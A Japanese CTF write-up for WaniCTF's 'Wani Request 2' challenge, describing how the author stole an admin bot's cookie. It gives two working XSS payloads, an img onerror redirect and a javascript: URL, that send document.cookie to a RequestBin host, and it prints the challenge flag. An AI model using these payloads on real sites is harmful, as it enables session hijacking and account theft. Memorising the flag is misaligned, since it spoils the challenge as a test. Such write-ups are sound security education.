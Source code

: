 # Wani Request 2 (250pt Normal)
# 問題文
XSS Challenge !!

https://request2.web.wanictf.org/

チャレンジは二つです。

あどみんちゃんのクッキーを手に入れてください。

Wani Request 1 と同じくRequestBinなどを利用してみましょう。

# やったこと
与えられたリンクにアクセスすると
二つのチャレンジがあることがわかった．

## チャレンジ1

まず1つ目のチャレンジ

![](s1.png)

あどみんちゃんが
"https://request2.web.wanictf.org/page1?wani="
にアクセスするっぽい．

waniでXSSを発生させてあどみんちゃんのCookieをRequestBinに送信させる．

ちょっと試行錯誤した結果以下の入力でXSSを発生させることができた．

```
<img src="x" onerror="location.href='http://requestbin.net/r/gu8eetgf?'%2bdocument.cookie">
```

送信したらフラグの前半部分が送られてきた

![](s2.png)

FLAG{y0u_4r3_x55

## チャレンジ2
2つ目のチャレンジ

![](s3.png)

入力したURLにアクセスするっぽい．

以下の入力でXSSを発生させることができた．

```
javascript:location.href="http://requestbin.net/r/b0xs5izm?"+document.cookie
```

送信したらフラグの後半部分が送られてきた．

![](s4.png)

-60d_c75a4c80cf07}

合体させると一つのフラグになる．

# フラグ
FLAG{y0u_4r3_x55-60d_c75a4c80cf07}

